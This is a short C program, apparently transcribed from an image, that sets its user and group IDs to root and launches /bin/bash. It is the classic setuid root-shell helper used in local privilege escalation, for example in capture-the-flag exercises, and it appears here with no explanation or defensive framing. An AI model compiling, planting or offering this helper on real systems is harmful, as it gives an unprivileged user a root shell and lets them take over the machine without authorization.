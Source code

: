 #include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main() {
    setgid(0);
    setuid(0);
    system("/bin/bash");
    return 0;
}
